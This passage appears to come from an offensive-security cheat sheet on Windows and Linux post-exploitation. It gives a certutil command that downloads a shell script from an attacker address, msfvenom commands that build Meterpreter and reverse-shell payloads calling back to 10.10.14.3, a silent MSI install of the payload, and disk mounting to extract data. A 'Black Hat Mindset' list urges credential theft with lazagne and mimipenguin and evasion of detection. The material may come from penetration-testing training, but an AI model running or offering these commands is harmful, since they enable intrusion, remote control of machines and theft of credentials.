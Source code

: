 ```powershell
# Transfer files
certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat

# Encode/decode files
certutil -encode file1 encodedfile
certutil -decode encodedfile file2
```

### Scheduled Tasks and System Enumeration

Enumerate scheduled tasks and system details:

```powershell
# List scheduled tasks
schtasks /query /fo LIST /v
Get-ScheduledTask | select TaskName,State

# Check directory permissions
.accesschk64.exe /accepteula -s -d C:\Scripts

# Generate malicious binaries
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi

# Execute MSI package
msiexec /i c:\users\lafi\desktop\aie.msi /quiet /qn /norestart
```

## Mounting Virtual Disks (Linux)

Mount virtual disk images to extract data:

```bash
# Mount VMDK
guestmount -a SQL01-disk1.vmdk -i --ro /mnt/vmd

# Mount VHD/VHDX
guestmount --add WEBSRV10.vhdx --ro /mnt/vhdx/ -m /dev/sda1
```

## Black Hat Mindset

- **Search Thoroughly**: Use `find` and `grep` to uncover plaintext credentials in config files, scripts, and documents.
- **Extract Credentials**: Leverage tools like mimipenguin and lazagne to steal credentials from memory or browsers.
- **Exploit Misconfigs**: Target SSH keys, cron jobs, and unquoted service paths for privilege escalation.
- **Stay Silent**: Minimize file access and use stealthy tools to avoid detection.

## Resources
